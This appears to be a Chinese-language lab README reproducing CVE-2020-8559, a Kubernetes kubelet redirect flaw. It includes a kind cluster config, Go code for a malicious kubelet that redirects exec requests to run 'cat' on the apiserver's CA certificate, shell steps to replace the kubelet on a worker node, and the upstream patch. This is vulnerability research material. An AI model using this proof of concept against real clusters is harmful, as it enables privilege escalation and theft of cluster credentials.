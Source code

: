# CVE-2020-8559

## Experiment Environment

```yaml
# three node (two workers) cluster config
kind: Cluster
apiVersion: kind.x-k8s.io/v1alpha4
nodes:
- role: control-plane
  image: kindest/node:v1.15.12@sha256:9dfc13db6d3fd5e5b275f8c4657ee6a62ef9cb405546664f2de2eabcfd6db778
- role: worker
  image: kindest/node:v1.15.12@sha256:9dfc13db6d3fd5e5b275f8c4657ee6a62ef9cb405546664f2de2eabcfd6db778
- role: worker
  image: kindest/node:v1.15.12@sha256:9dfc13db6d3fd5e5b275f8c4657ee6a62ef9cb405546664f2de2eabcfd6db778
```

## Description

http://blog.nsfocus.net/cve-2020-8559/

```go
	protocol := "https"
	host := "172.18.0.3:6443" // apiserver的ip和端口
	namespace := "kube-system"
	pod := "kube-apiserver-kind-control-plane"
	container := "kube-apiserver"
	command1 := "cat"
	command2 := "/etc/kubernetes/pki/ca.crt"

	if strings.Contains(req.URL.Path, "/exec") || strings.Contains(req.URL.Path, "/attach") ||
		strings.Contains(req.URL.Path, "/portforward") {
		fmt.Println("————————————————————–")
		fmt.Println("Sending Redirect")
		fmt.Println("————————————————————–")
		http.Redirect(w, req,
			protocol+"://"+host+"/api/v1/namespaces/"+namespace+"/pods/"+pod+"/exec?command="+
				command1+"&command="+command2+"&container="+container+"&stderr=true&stdout=true",
			302)
	}
```

在kubelet中添加如下重定向代码即可。

如果恶意攻击者获得了一个worker节点的权限，那么他可以更换kubelet，然后重定向，执行任何命令。

任何访问这个恶意worker的请求会被转发到攻击者指定的节点上。

​	

​	攻击者可以通过截取某些发送至节点kubelet的升级请求，通过请求中原有的访问凭据转发请求至其他目标节点，从而造成节点的权限提升漏洞。

![image-20230218211115118](.assets/image-20230218211115118.png)

## Install & Configuration

## Pocs

```yaml
# 创建两节点集群
kind create cluster --config three-node-1.15.12.yaml
```



```sh
# 修改kubelet源码，然后编译得到文件kubelet
cd kubernetes;
cd pkg/kubelet/server;
# 修改server.go文件，然后编译得到kubelet
# 注意修改时，要正确修改目标pod，apiserver的ip端口和想要的命令。
```



```sh
# 将修改后的kubelet复制到worker节点中
# 替换worker节点中的/usr/bin/kubelet
docker exec -it xxx /bin/bash
cp /usr/bin/kubelet /usr/bin/kubelet.bak
cp -f ~/kubelet /usr/bin/kubelet

# 重启kubelet（kubelet会自动重启，kill操作即可）
ps aux | grep kubelet
kill $pid
```

```sh
# 寻找一个在worker节点上工作的pod
kubectl get pods -A -o wide
# 执行命令
kubectl exec $pod -- hostname
```

## Vulnerability Details & Patch

UpgradeAwareHandler组件对于从kubelet返回的HTTP响应要检查

如果是重定向报文，那么

1、必须重定向到同一个host

2、返回会用户不是30x的报文，返回错误，而不是重定向报文。

补丁的源码：

```go
	// If the backend did not upgrade the request, return an error to the client. If the response was
	// an error, the error is forwarded directly after the connection is hijacked. Otherwise, just
	// return a generic error here.
	if backendHTTPResponse.StatusCode != http.StatusSwitchingProtocols && backendHTTPResponse.StatusCode < 400 {
		err := fmt.Errorf("invalid upgrade response: status code %d", backendHTTPResponse.StatusCode)
		klog.Errorf("Proxy upgrade error: %v", err)
		// 返回的报文是50x
        h.Responder.Error(w, req, err)
		return true
	}
```



## Root cause

